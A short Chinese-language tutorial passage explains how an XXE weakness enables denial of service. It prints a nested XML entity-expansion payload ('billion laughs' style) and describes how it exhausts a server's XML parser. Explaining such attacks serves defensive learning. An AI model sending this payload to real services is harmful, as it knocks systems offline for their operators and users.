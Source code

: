 当XXE攻击奏效时，也可以引发服务拒绝漏洞。

攻击者可以使用如下载荷发起DDoS攻击。



```
&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;
&lt;!DOCTYPE bga [
&lt;!ELEMENT ANY &gt;
&lt;!ENTITY bga1 "bga1"&gt;
&lt;!ENTITY bga2 "&amp;bga1;&amp;bga1;&amp;bga1;&amp;bga1;&amp;bga1;&amp;bga1;"&gt;
&lt;!ENTITY bga3 "&amp;bga2;&amp;bga2;&amp;bga2;&amp;bga2;&amp;bga2;&amp;bga2;"&gt;
&lt;!ENTITY bga4 "&amp;bga3;&amp;bga3;&amp;bga3;&amp;bga3;&amp;bga3;&amp;bga3;"&gt;
&lt;!ENTITY bga5 "&amp;bga4;&amp;bga4;&amp;bga4;&amp;bga4;&amp;bga4;&amp;bga4;"&gt;
&lt;!ENTITY bga6 "&amp;bga5;&amp;bga5;&amp;bga5;&amp;bga5;&amp;bga5;&amp;bga5;"&gt;
]&gt;
&lt;bga&gt;&amp;bga6;&lt;/bga&gt;
```

从载荷中可知，攻击者定义了一些XML实体，并在最后引用了bga6实体。bga6实体引用了6次bga5实体，同样，每个bga5实体也引用了6次bga4实体，以此类推。

当发往服务端的载荷中这类实体的数量和引用次数非常巨大时，服务端的XML解析器负载将大大提高，导致服务器在一段时间内无法响应客户端请求，最终达到拒绝服务攻击效果。
